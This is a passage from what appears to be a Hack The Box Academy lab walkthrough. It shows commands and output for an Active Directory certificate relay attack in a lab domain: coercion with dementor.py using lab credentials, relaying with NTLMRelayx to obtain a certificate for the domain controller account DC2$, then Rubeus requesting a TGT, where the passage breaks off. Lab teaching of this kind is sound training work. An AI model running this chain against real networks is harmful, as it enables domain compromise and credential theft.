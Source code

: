 Attack

```shell-session
Discordio@htb[/htb]$ python3 ./dementor.py 172.16.18.20 172.16.18.4 -u bob -d eagle.local -p Slavi123

[*] connecting to 172.16.18.4
[*] bound to spoolss
[*] getting context handle...
[*] sending RFFPCNEX...
[-] exception RPRN SessionError: code: 0x6ab - RPC_S_INVALID_NET_ADDR - The network address is invalid.
[*] done!
```

![Python script dementor.py connects to 172.16.18.4 with user Bob; network address invalid error](https://academy.hackthebox.com/storage/modules/176/A14/dementor.png)

If we switch back to terminal of `NTLMRelayx`, we will see that an incoming request from `DC2$` was relayed and a certificate was successfully obtained:

Attack

```shell-session
[*] SMBD-Thread-5 (process_request_thread): Received connection from 172.16.18.4, attacking target http://172.16.18.15
[*] HTTP server returned error code 200, treating as a successful login
[*] Authenticating against http://172.16.18.15 as EAGLE/DC2$ SUCCEED
[*] SMBD-Thread-7 (process_request_thread): Connection from 172.16.18.4 controlled, but there are no more targets left!
[*] SMBD-Thread-8 (process_request_thread): Connection from 172.16.18.4 controlled, but there are no more targets left!
[*] Generating CSR...
[*] CSR generated!
[*] Getting certificate...
[*] GOT CERTIFICATE! ID 48
[*] Base64 certificate of user DC2$: 
MIIRbQIBAzCCEScGCSqGSIb3DQEHAaCCERgEghEUMIIREDCCB0cGCSqGSIb3DQEHBqCCBzgwggc0AgEAMIIHLQYJKoZIhvcNAQcBMBwGCiqGSIb3DQEMAQMwDgQIKetNs6FxjOQCAggAgIIHANV1B7
...
...
...
awlkK4goAPpDmzA9MDEwDQYJYIZIAWUDBAIBBQAEIFRQPz8lJcfLnaSLiZE6XHwdBfhN0CvXA6VfHQyHXUjRBAjoidjhENa0Kg==

```

![Connection from 172.16.18.4 to 172.16.18.15; certificate ID 48 issued for DC2.](https://academy.hackthebox.com/storage/modules/176/A14/DC2Cert.png)

We will copy the obtained base64-encoded certificate, switch to the Windows machine, and use `Rubeus` to the certificate to authenticate with (this time, the certificate is in the proper format) and obtain a TGT:

Attack

```powershell-session
.\Rubeus.exe asktgt /user:DC2$ /ptt /certificate:MIIRbQIBAzCCEScGCSqGSI<SNIP>

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.1

[*] Action: Ask TGT
```